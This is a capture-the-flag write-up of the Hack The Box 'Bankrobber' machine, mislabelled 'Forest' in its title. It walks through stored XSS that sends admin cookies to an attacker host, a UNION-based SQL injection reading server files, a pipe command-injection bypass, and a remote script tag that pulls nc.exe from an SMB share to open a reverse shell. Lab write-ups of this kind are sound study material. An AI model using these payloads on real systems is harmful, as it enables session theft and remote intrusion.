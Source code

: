 # HTB: Forest Writeup w/o Metasploit
![bankrobber](https://user-images.githubusercontent.com/48168337/188629756-091014e6-20cc-4f0c-9540-2a1bb9032dbd.png)

## Introduction
Hey everybody, welcome to this writeup on HTB's Bankrobber box. This machine was pretty challenging and fun at the same time. It was ranked as insane so it may have been more than what most are used to. Anyway, let's jump right into it. 

## Recon
As always, I kicked off a few nmap scans to see what services and ports are available. 

![nmap_scan](https://user-images.githubusercontent.com/48168337/188629985-7a7b8cbf-c5f5-4e10-9ed1-fd0c29c15746.png)

As you can see we have Web services, SMB, and SQL services available. Let's check out the web services first by opening a browser and navigating to http://10.10.10.154. FYI, it'll help to have Burpsuite open and logging all of our web traffic as we're checking out the web services.


![webpage](https://user-images.githubusercontent.com/48168337/188630629-f59738cd-2730-4840-9fa8-35220ac4b373.png)

The webpage brings us to some cryptocurrency platform. After playing around with the web page, I decided to register and create an account called "test" and log into it. After logging in, you'll notice a "Transfer E-Coin" page; looks like you can transfer cryptocurrency to others using this. The transfer has to be approved by an Admin though. 

![trasnfer_on_hold](https://user-images.githubusercontent.com/48168337/188632981-53acfcf1-a46f-46aa-a361-e18e12758b48.png)

With that in mind, and the comment section on this page, I thought about a XSS (cross site scripting) attack. 

After some fuzzing around, I noticed you can exploit the comment section with XSS scripts. I tested the XSS vulnerability out with a simple script, after it worked, I created some JavaScript to try and steal cookies. I'll skip my test and get to the cookie stealing script. This `img src=x onerror=this.src=http://10.10.14.2/?cookie="btoa(document.cookie) />` is the script I used to steal the admin cookies. How or Why does it steal the admin cookies? Well the script gets executed when the admin approves/denies our transfer. After execution their cookies are forwarded to our server. For this to work, we'll need a webserver started on our box, I used python `python3 -m http.server 80` to start one up. You'll want this started up before sending the comment with our JavaScript. 

![cookie_stealer](https://user-images.githubusercontent.com/48168337/188634014-bdcb655c-f0e4-4099-abcc-e75312ad1d70.png)

![cookie_stealer_2](https://user-images.githubusercontent.com/48168337/188637185-a8b8eb3b-d4a0-4db8-b33c-4da76e0d0353.png)

It takes about a 3-5 minutes for the admin to approve our transaction, simultaneously being affected by our JavaScript. As you can see, the cookies were successfully retrieved and look encoded. They are encoded, with base64. You can decode this with any online tool, Burpsuite, or your terminal. 

![base64-decode](https://user-images.githubusercontent.com/48168337/188637813-8b353bd8-f959-424f-87c3-f893c1f0a55b.png)

![base64-decode_2](https://user-images.githubusercontent.com/48168337/188638461-5d837d03-3a9b-4db9-9d14-c0e523379677.png)

I used my terminal to do the decoding. After decoding the cookie, you'll notice you have to decode the username and password as well. And now we have Admin credentials to log into this web application. 

![admin_login](https://user-images.githubusercontent.com/48168337/188639019-5801279a-60bd-426a-aada-034da908a283.png)

After we log in, we have access to a different interface and tabs. There's a `notes.txt` tab, transactions tab, `search users` tab, and a `security tab`. We learn this is a XAMPP web application after looking at the Notes.txt page. This is good to know. FYI, default location for XAMPP on Windows is `C:/xampp/htdocs`. 

![xampp_server](https://user-images.githubusercontent.com/48168337/188639621-b4b0b801-36a5-4944-b787-048483cf1816.png)

The `search users` tab allows us to query a database for users. After some fuzzing around, we learned that this is vulnerable to SQL Injection attacks. I was able to find a few things, such as other users (`gio`) and their passwords. We were also able to load files from the system; specifically the file being used by the `backdoorchecker`. What is the backdoorchecker? It's the within the `security tab`, or you can just scroll down the page a bit and you'll find it at the bottom.

![backdoorchecker](https://user-images.githubusercontent.com/48168337/188883159-9e99ae34-9576-41e4-ba2f-c39cfc6bd2a0.png)

![backdoorchecker2](https://user-images.githubusercontent.com/48168337/188883442-09e74bd2-4701-4f84-a211-1cea545e3f98.png)

![backdoorchecker3](https://user-images.githubusercontent.com/48168337/188883408-28245182-3def-485c-8e90-a71dc46e7bae.png)

Apparently, the backdoorchecker.php script allows you to identify backdoors located on the server, but the script can only be used locally. Once again, we were able to load this file using the SQL injection vulnerability in the `search users` input field. If you enter `' UNION SELECT 1,LOAD_FILE('c:/xampp/htdocs/backdoorchecker.php'),3-- -` into the `search users` input field, it will try to load the `backdoorchecker.php` script. It may fail to load using your web browser, so try to do this in repeater using BurpSuite. I have a video walkthrough at the end where you can see me doing this.

![burp_backdoor](https://user-images.githubusercontent.com/48168337/188884523-f17629df-02a8-4105-92e0-b78d915d7e17.png)

The screenshot above (right side) is what the script looks like within burp suite after we send it. Essentially the script is checking/validating credentials and doing some input validation. For instance, it's checking what commands are being used, if they match the `$bad` variable then it error out, if the commands are not coming from `localhost` then error out. 

But the script isn't checking if we're adding a `|` to our command. Remember, we can bypass input validation by piping another command such as `cmd | ping 10.10.10.152`. But we'll still have to do this from localhost so the command can work. Therefore, we'll need to use the same xss vulnerability so the command looks like its coming from the localhost. To accomplish all of this we're going to make a script, you can see it below. 

![xss_nc.js](https://user-images.githubusercontent.com/48168337/189116761-4adc79aa-bfa9-4909-a2f0-62ba9a736408.png)


The script is pretty simple and straightforward. We're setting variables for our request, uri, and cookies. Then we're setting the request to be sent which is piping a netcat connection using `nc.exe` from our smbserver at `10.10.14.2\kali`. We'll call the script using the xss vulnerabilty, all we have to do is paste xss attack in the same input field as before. Here is what we will be pasting. `<script src="http://10.10.14.2/xss.js></script>`. I named my script xss.js.

Now lets set up the attack. We'll need an SMBserver to host what the script is using (`nc.exe`). And a webserver to host our script (`xss.js`). 

Below is our smbserver in the left panel, our webserver in the right panel, and a netcat listener on the bottom panel.

![tmux](https://user-images.githubusercontent.com/48168337/189125025-cf5165b5-88c4-4ae9-af73-36c48b1c3612.png)

We started the smbserver with the following command: `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali.` We started our python webserver with `python3 -m http.server 80`. Make sure you start those services in the same directory as your javascript (xss.js) and netcat file (nc.exe). You should be able to use the following command to copy netcat to your current directory ` cp /usr/share/windows-resources/binaries/nc.exe  .`.

We can execute our new javascript using the same input field from before or you can do it through Burpsuite using repeater. There's a screenshot below to do it both ways. In Burp, keep in mind, the payload is url encoded, without the encoding it looks like this: `<script src="http://10.10.14.2/xss.js></script>` Don't forget, I named the script xss.js. 

![burp_request](https://user-images.githubusercontent.com/48168337/189119369-cb9fed02-c552-4c62-afe4-5ad5d8f9ea20.png)

![upload-xss.js](https://user-images.githubusercontent.com/48168337/189122599-5eeef051-13b8-4e8d-b00e-4990b2c99b19.png)

You can see the transaction is waiting to be approved. I sent it a few times because my box was timing out. Now, we just have to wait for it to be executed.

![transaction_xss.js](https://user-images.githubusercontent.com/48168337/189123130-c7b895e4-8a1a-43a2-a3e6-9ae571973c74.png)

